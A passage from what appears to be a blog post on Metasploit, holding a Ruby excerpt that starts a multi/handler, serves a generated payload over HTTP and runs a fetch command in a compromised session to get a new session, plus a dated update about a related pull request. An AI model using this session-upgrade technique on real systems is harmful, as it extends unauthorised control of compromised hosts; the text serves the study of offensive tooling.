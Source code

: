 ```
      # It takes a little time for the resources to get set up, so sleep for
      # a bit to make sure the exploit is fully working.  Without this,
      # mod.get_resource doesn't exist when we need it.
      select(nil, nil, nil, 0.5)
      if framework.jobs[mh.job_id.to_s].nil?
        raise RuntimeError, "Failed to start multi/handler - is it already running?"
      end
    end

    # Generate our command and payload
    cmd = generate(lhost, lport, sport)

    # start http service
    start_http_service(sport)

    sleep 2 # give it a sec to startup

    # execute command
    session.run_cmd(cmd)

    if not @server.state
        # wait...
        wait_payload
    end

rescue ::Interrupt
  # TODO: cleanup partial uploads!
  aborted = true
rescue => e
  print_error("Error: #{e}")
  aborted = true
end

#
# Stop the job
#
if (use_handler)
  Thread.new do
    if not aborted
      # Wait up to 10 seconds for the session to come in..
      select(nil, nil, nil, 10)
    end
    framework.jobs.stop_job(mh.job_id)
  end
end
```


<h3>Update 09/06/2014</h3>
Tom Sellers submitted a PR on 05/29 that implements the above [nicely](https://github.com/rapid7/metasploit-framework/pull/3401).  It appears to support a large swath of platforms, but only a couple support no-disk-write methods, namely the Powershell method.
